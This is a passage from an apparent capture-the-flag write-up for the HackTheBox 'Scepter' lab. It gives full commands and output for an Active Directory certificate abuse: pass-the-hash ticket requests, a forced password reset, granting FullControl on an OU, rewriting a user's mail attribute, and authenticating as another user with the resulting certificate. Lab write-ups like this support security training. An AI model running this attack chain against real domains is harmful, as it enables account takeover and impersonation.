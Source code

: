 If we don't specify `-subject "CN=d.baker,CN=Users,DC=scepter,DC=htb"`, we are going to have this error `code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name`

```bash
➜ getTGT.py -dc-ip "scepter.htb" "scepter.htb"/"d.baker" -hashes :'18..ce'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in d.baker.ccache

➜ export KRB5CCNAME=d.baker.ccache

➜ certipy req -no-pass -k -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate' -dc-ip '10.129.28.117' -debug -dns-tcp

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Domain retrieved from CCache: SCEPTER.HTB
[+] Username retrieved from CCache: d.baker
[+] Trying to resolve 'DC01.scepter.htb' at '10.129.28.117'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Using Kerberos Cache: d.baker.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: d.baker
[+] Getting TGS for 'host/DC01.scepter.htb'
[+] Got TGS for 'host/DC01.scepter.htb'
[+] Trying to connect to endpoint: ncacn_np:10.129.28.117[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.28.117[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
[*] Request ID is 4
Would you like to save the private key? (y/N) n
[-] Failed to request certificate
```
Looking again on the `certipy find -vulnerable...` screen, we can see :

> Certificate Name Flag : SubjectRequireEmail ; SubjectRequireDnsAsCn ; SubjectAltRequireEmail

So instead of changing the upn, let's try to change the email :

```bash
➜ changepasswd.py 'scepter.htb'/'a.carter'@10.129.28.117 -reset -altuser 'd.baker' -althash :'18..ce'

➜ dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'password'

➜ bloodyAD -d scepter.htb -u a.carter -p 'password' --host dc01.scepter.htb set object d.baker mail -v h.brown@scepter.htb

[+] d.baker mail has been updated

➜ certipy req -username "d.baker@scepter.htb" -hashes :'18...ce' -target "dc01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'

➜ certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.129.28.117 -username h.brown
```